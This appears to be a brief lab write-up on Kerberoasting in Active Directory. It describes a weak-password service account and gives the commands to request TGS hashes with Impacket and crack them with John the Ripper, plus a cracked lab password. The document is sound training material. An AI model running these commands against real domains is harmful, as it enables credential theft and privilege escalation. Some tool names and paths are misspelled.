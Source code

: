 # Kerberoasting in Active Directory

## 🔍 Technique Overview

Kerberoasting is a exploitation technique in which an attacker with a low-privileged domain account requests service tickets (TGS) for service accounts and attempts to crack them offline to recover plaintext credentials.

- **MITRE ATT&CK ID:** [T1558.003 – Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- **Tools Used:** Rubeus, Mimikatz, Impacket

---

## 🏗️ Lab Misconfiguration

In this lab, a service account ('svc_iis') was:
- Configured with **Service Principal Name (SPN)**: 'HTTP/webserver.mydomain.com'
- Assigned a **weak password**
- Member of the **Domain Users** group only (low-privilege)

This is a **typical enterprise misconfiguration**, where service accounts are not protected or audited properly.

---

##  Exploitation Steps

### 1. Gain Access to a Low-Privileged Account (Lucy)

### 2. Request TGS Hash

```bash
  GetUsersSPNs 'mydomain.com/lucy:<pass>' -request
```
### 3. Crack the Hash Offline

```bash
  john -w:/usr/sahre/wordlist/rockyou.txt hash
```
Password: !giSem@89$gSm

## Impact
Compromising a service account with local admin rights can lead to lateral movement or privilege escalation.

Often overlooked in real environments with hundreds of SPNs.

Easy to automate and scale in large environments.
